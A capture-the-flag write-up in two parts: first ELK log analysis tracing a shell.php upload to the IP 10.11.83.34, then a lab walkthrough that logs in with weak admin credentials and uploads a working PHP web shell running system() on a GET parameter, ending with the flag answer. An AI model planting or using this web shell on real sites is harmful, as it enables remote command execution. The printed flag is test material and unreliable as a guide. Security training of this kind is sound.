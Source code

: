 ## Operation BLUE
In this part we learn to use ELK, to analyse logs and investigate a particular attack.
+ Firstly we open Elastic then set the collection to `frostypines-resorts`.
+ After that we set the time frame from 11:30, October 3rd 2024 to 12:00, October 3rd 2024.

### Where was the web shell uploaded to?
Firstly we add `message` and `clientip` columns as those are the info that is of interest to us. Then we add the following filter: `message: "shell.php"` to filter out the logs that include instances of the web shell being uploaded somewhere. Here we can see the path: `/media/images/rooms/shell.php`
### What IP address accessed the web shell?
Firstly we add `message` and `clientip` columns as those are the info that is of interest to us. Then we add the following filter: `message: "shell.php"` to filter out the logs that include instances of the web shell being uploaded somewhere. We get two ip addresses. One does not run any commands thus it is not malicious while the other is running commands thus making it malicious. The ip address which runs these commands is `10.11.83.34`.

## Operation RED
+ Firstly we type in `echo “IP frostypines.thm” >> /etc/hosts` in the terminal so that we can acces the website.
+ Now inspecting the site and going to the login page, I tried using the examples of "weak credentials" which were given and the combination of `admin@frostypines.thm` and `admin` gave me acces to the admin account.
+ Now after inspecting a little more we can see that only the `Add Room` section allows us to upload files to the web page and maybe we can upload our script here.
+ Now we save the code given in the AoC room as `exploit.php` using `nano`.
  ```
  <html>
  <body>
  <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
  <input type="text" name="command" autofocus id="command" size="50">
  <input type="submit" value="Execute">
  </form>
  <pre>
  <?php
      if(isset($_GET['command'])) 
      {
          system($_GET['command'] . ' 2>&1'); 
      }
  ?>
  </pre>
  </body>
  </html>
  ```
+ Now we add `exploit.php` after clicking `Add Room`.
+ Now right clicking on the image of the last room added and opening it in the new tab we can see that our exploit is working.
+ We type in `ls` to view the files and we can see that there is a file named `flag.txt`. We now do `cat flag.txt` to view the contents of the file.

## What is the contents of the flag.txt?
After typing in `cat flag.txt` we get the answer which is `THM{Gl1tch_Was_H3r3}`.
